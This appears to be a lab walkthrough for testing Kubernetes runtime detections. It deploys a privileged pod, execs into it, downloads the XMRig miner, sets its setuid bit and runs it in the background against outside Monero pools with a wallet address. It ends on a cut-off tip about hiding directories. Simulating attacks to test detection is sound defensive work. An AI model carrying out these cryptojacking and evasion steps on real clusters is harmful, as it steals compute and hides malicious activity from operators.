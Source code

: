 ```
cat priviliged-pod.yaml
```

```
kubectl apply -f priviliged-pod.yaml
```

```
kubectl exec -it centos-server -n overly-permissive -- bash
```

```
curl -OL https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz
```

Unzip the tarbal file:
```
tar -xvf xmrig-6.16.4-linux-static-x64.tar.gz
```

Move to the directory holding the miner:
```
cd xmrig-6.16.4
```

For the purpose of testing, run chmod to trigger the ```SetGid Bit``` detection:
```
chmod u+s xmrig
```

Should trigger the detection, but there's likely no actual change here:
```
find / -perm /6000 -type f
```

Run the cryptominer in background mode (this won't show anything in your shell)
```
./xmrig --donate-level 8 -o xmr-us-east1.nanopool.org:14433 -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero --background
```

Use the ```Stratum``` protocol
```
./xmrig -o stratum+tcp://xmr.pool.minergate.com:45700 -u lies@lies.lies -p x -t 2
```

If you'd like to see XMRig in action, run the shell file without any flags
```
./xmrig
```

Make sure the ```xmrig``` process is running
```
top
```

To hide a directory or folder, you can use the same ```mv``` command and append the ```.``` at the start of the directory name:

```
cd
```
